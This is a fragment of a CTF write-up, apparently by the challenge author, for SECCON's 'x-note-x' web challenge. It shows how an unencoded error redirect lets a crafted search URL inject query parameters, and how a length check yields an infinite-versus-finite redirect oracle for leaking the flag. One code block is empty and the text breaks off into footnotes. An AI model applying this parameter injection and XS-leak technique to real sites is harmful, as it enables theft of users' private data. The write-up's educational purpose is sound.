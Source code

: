In this web servcie, if an error occurs, the request is redirected to an error page:
```javascript
app.use(function (err, req, res, _next) {
  res.redirect(`/error?msg=${err.message}&url=${req.url}`);
});
```
This redirect is implemented without encoding (e.g. `encodeURIComponent`). It means that the Error A adds a query parameter `" filteredNotes"` to the redirected request:
```javascript
> require("qs").parse("msg=/app/views/index.ejs:22%0A%20%20%20%2020%7C%20%20%20%20%20%20%20%20%20%3Csection%20class=%22modal-card-body%22%3E%0A%20%20%20%2021%7C%20%20%20%20%20%20%20%20%20%20%20%3Carticle%20class=%22message%22%3E%0A%20%3E%3E%2022%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cpre%20class=%22message-body%20is-dark%22%3E%3C%25=%0A%20%20%20%2023%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20hitCount%20%3E%200%20&&%20filteredNotes[0]%20%7C%7C%20%27Not%20found%20...%27%0A%20%20%20%2024%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%25%3E%3C/pre%3E%0A%20%20%20%2025%7C%20%20%20%20%20%20%20%20%20%20%20%3C/article%3E%0A%0ACannot%20convert%20object%20to%20primitive%20value&url=/?search=SECCON%7Ba")
{
  msg: '/app/views/index.ejs:22\n' +
    '    20|         <section class="modal-card-body">\n' +
    '    21|           <article class="message">\n' +
    ' >> 22|             <pre class="message-body is-dark"><%=\n' +
    '    23|               hitCount > 0 ',
  ' filteredNotes': [ '' ],
  url: '/?search=SECCON{a'
}
```

#### Step 3: Infinite redirects and finite redirects

The key factor in this step is a validation for request parameters:
```javascript
const hasTooLongParams = (params) => {
  return _.some(params, (v) => v.length > 500);
};

app.use((req, _res, next) => {
  if (hasTooLongParams(req.body) || hasTooLongParams(req.query)) {
    throw new Error("<marquee>Too long params</marquee>");
  } else {
    next();
  }
});
```

Now, consider the following search URL:
```
http://x-note-x.quals.seccon.jp:3000/?search=SECCON%7Ba&+filteredNotes=x&+filteredNotes[length]=100000
```

The redirected URL for Error A is
```
http://x-note-x.quals.seccon.jp:3000/error?msg=/app/views/index.ejs:22%0A%20%20%20%2020%7C%20%20%20%20%20%20%20%20%20%3Csection%20class=%22modal-card-body%22%3E%0A%20%20%20%2021%7C%20%20%20%20%20%20%20%20%20%20%20%3Carticle%20class=%22message%22%3E%0A%20%3E%3E%2022%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cpre%20class=%22message-body%20is-dark%22%3E%3C%25=%0A%20%20%20%2023%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20hitCount%20%3E%200%20&&%20filteredNotes[0]%20%7C%7C%20%27Not%20found%20...%27%0A%20%20%20%2024%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%25%3E%3C/pre%3E%0A%20%20%20%2025%7C%20%20%20%20%20%20%20%20%20%20%20%3C/article%3E%0A%0ACannot%20convert%20object%20to%20primitive%20value&url=/?search=SECCON%7Ba&+filteredNotes=x&+filteredNotes[length]=100000
```
Then, this query parameters are parsed as follows:
```javascript
```

[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/